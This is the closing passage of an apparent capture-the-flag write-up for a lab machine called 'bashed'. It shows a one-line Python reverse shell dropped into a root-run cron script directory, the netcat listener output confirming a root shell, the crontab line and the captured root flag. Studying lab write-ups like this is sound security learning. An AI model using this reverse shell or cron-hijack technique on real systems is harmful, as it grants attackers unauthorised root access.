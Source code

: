 <p style="text-align: justify;">
  I created a tester.py containing the following and ran a netcat listener on port 6666
</p>

<pre>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.234",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.234] from (UNKNOWN) [10.10.10.68] 55864
/bin/sh: 0: can't access tty; job control turned off
# whoami
root</pre>

<div>
  <p style="text-align: justify;">
    BOOM!!!!!
  </p>
  
  <p style="text-align: justify;">
    I have to say I didn&#8217;t think this was going to work. For my own sanity i checked to see if there was a cron job that was running which i couldn&#8217;t see as other user. Sure enough
  </p>
</div>

<pre># crontab -l * * * * * cd /scripts; for f in *.py; do python "$f"; done #</pre>

<div>
  <p style="text-align: justify;">
    All that’s left to do now is to capture the root flag
  </p>
</div>

<pre>root@bashed:/scripts# cat /root/root.txt 
cc4f0afe3a1026d402ba10329674a8e2</pre>

<div>
  <p style="text-align: justify;">
    FIN
  </p>
  
  <p style="text-align: justify;">
    Conclusion
  </p>
  
  <p style="text-align: justify;">
    If you made it this far down well done. It was a fun box and I learned quite a bit from it. What I didnt put in this blog was that I used another python reverse shell to log on as scriptmanager as i got fed up typing sudo -u scriptmanager then the command. It became quite a messy procedure after a while. Upon reflection I think it would have been better just to type the sudo -u command when i needed to use it as at times I had multiple shells open and it was hard to keep track of things.
  </p>
  
  <p style="text-align: justify;">
    Enough of my ramblings.
  </p>
</div>